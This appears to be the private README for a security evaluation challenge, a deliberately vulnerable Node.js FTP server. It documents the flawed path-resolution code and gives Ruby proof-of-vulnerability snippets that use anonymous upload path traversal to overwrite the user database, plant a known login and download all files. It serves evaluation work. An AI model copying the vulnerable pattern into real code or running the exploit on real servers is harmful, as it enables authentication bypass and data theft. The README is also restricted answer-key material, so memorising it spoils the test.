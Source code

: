 # Kensington

This `README.md` MUST NOT be shared with performers or evaluation teams
before or during the Phase 2 evaluation event.
The `README-dist.md` file SHOULD be shared
with evaluation teams during the Phase 2 evaluation event.

The `priv/v4.4.0.tar.gz` file MUST NOT be distributed to evaluation teams as
part of the Phase 2 evaluation process.

## Description

Kensington is a modified open-source File Transfer Protocol (FTP) server for Node.js.

It supports anonymous and authenticated users. 

Anonymous users (identified with
the username "anonymous" and any password) are only allowed
to write files in `/data/ftproot/_anonymous/`, and are not allowed to retrieve
files.

Non-anonymous users are authenticated against the SQLite3 database
`/data/kensington.sqlite3`, and are allowed to read, write, and rename
files in
`/data/ftproot/`, including the `_anonymous_` directory.

### Scope for Analysis

This is an FTP server. Anonymous and authenticated access are supported.

This service uses a SQLite3 database to store user information. The structure
of this database is guaranteed (see the "Persistent Data" section below),
but the content may vary. Proofs-of-Vulnerability (PoVs) 
MAY depend on the `users` table existing. PoVs MUST NOT depend on
specific content in the `users` table.
PoVs MUST NOT depend on the
existence or content of a `users_cheatsheet` table. The `users_cheatsheet` is
only used by the poller, and the challenge attempts to delete this table on startup.

### Running It

Kensington is a JavaScript application. It can be run as-is:

```
guest> node ./bin/index.js
```

The challenge has several environment variables for configuration.

* `CHESS`: this environment variable is checked on startup; it doesn't need to
  be a particular value, just there.
* `DB_PATH`: the path to the user database, it defaults to
  `/data/kensington.sqlite3`
* `LOG_LEVEL`: sets the log level; it defaults to
  `DEBUG`, but it can be made less noisy. The list of levels are in
  `logger.js`
* `PORT`: the main FTP port, defaults to 3037
* `ROOT_DIR`: the FTP root directory, defaults to `/data/ftproot`

### Persistent Data

This challenge depends on successful reads and writes to the `/data` directory.
The poller operates on its own `/data` directory, that is expected to stay
synchronized with the challenge `/data`.
An initial load from `/base_data` is required for both the challenge and 
poller.
Emptying and re-loading the `/data`  directory from `/base_data`
may be useful for debugging.

FTP content is stored in `/data/ftproot/`. Normal poller operation will add
files to subdirectories here, but the filenames are timestamped and random,
and shouldn't conflict over multiple poller runs
[assuming the poller experiences linear time.][time]

[time]: https://infiniteundo.com/post/25326999628/falsehoods-programmers-believe-about-time

User data are stored in `/data/kensington.sqlite3`, in the following tables:

* `users`: `id` (integer pk), `name` (varchar),
  `password_digest` (scrypt),
  `created_at` (datetime)
* `users_cheatsheet`: `id` (integer pk), `name` (varchar),
  `password` (varchar)

The `users_cheatsheet` table will be deleted during the challenge
launch; the poller needs plaintext passwords, but the challenge does not, and
they're not in scope for proofs-of-vulnerability.

## Poller Operation

The poller is implemented in Ruby. It uses the built in `Net::FTP` library
to implement FTP operations.

The poller has several environment variables for configuration:

* `HOST` and `PORT`: the host and port number the challenge is available
  on. Defaults to `challenge` and `3038`, respectively.
* `NO_CLEANUP_ON_SUCCESS`: the poller creates a subdirectory in `/tmp` for
  validating the content of retrieved files. If this environment variable
  is set, this directory will not be deleted after a successful poller run.
  Unsuccessful poller runs should not delete this directory in any case.

The poller depends on having `/data` content match the challenge's, with the
addition of the `users_cheatsheet` table in `/data/kensington.sqlite3`. If it's
acting weird, on both the challenge and poller containers, destroy and 
re-create `/data` from `/base_data`.

## Vulnerability and Proof-of-Vulnerability

The unpatched version of the challenge has a weakness in how it resolves FTP
paths to filesystem paths that allows path traversal. However, anonymous users
are not allowed to read files,
so reading `/token` for a structured privileged information disclosure PoV does
not work.

Code listings below elide comments, format normalization, and other
irrelevant details.

The reference proof-of-vulnerability (PoV)
overwrites `/data/kensington.sqlite3` with a new login
database containing a known user, named `casper` with password `asdf`.

```ruby
Net::FTP.open(@host, port: @port,
              username: 'anonymous', 
              password: mk_name) do |ftp|

  ftp.put hacker_db, '../../kensington.sqlite3'
end
```

With this, the PoV is able to demonstrate an Authentication Error
(subtype "CWE-305: Authentication Bypass by Primary Weakness"),
log in as `casper`, get a directory listing,
and recursively download the entire server contents:

```ruby
Net::FTP.open(@host, port: @port,
              username: 'casper',
              password: 'asdf') do |ftp|
  directories = ftp.list

  directories.each do |dir|
    FileUtils.mkdir(File.join(stash, dir))
    Dir.chdir File.join(stash, dir) do
      ftp.chdir dir
      files = ftp.list

      files.each {|f| ftp.get f}
      ftp.chdir '..'
    end
  end
end
```

The weakness is in a somewhat-simplified path resolution algorithm.

The original uses Node.js's `path.normalize` (aliased to `nodePath.normalize`
in this listing) to first generate a noralized path to the FTP root, and then
uses that path to determine the filesystem root:

```js
const joinedPath = nodePath.isAbsolute(resolvedPath)
  ? nodePath.normalize(resolvedPath)
  : nodePath.join('/', this.cwd, resolvedPath);

// Create local filesystem path using the platform separator
const fsPath = nodePath.resolve(nodePath.join(this.root, joinedPath))
```

The vulnerable version attempts to do this on one shot, and will not filter
out traversal beyond `this.root`:

```js
let joinedPath = nodePath.
  join(this.root, this.cwd, resolvedPath)

let fsPath = nodePath.normalize(joinedPath)
```

The PoV will clobber the `/data/kensington.sqlite3` file in a way that will
break poller functionality and also make future PoV runs not actually
prove anything. You must reset the `/data` directory after every PoV
run.